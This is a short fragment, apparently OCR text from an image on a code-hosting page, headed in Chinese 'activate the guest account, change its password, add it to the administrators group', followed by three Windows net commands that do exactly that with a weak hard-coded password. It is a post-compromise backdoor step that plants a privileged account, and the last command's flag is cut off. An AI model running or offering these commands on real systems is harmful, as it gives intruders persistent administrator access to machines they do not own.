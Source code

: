 	激活来宾账户，修改其密码，加入administrators组
	>net user guest /active:yes
	>net user guest 123qwe!@#
	>net localgroup administrators guest /ad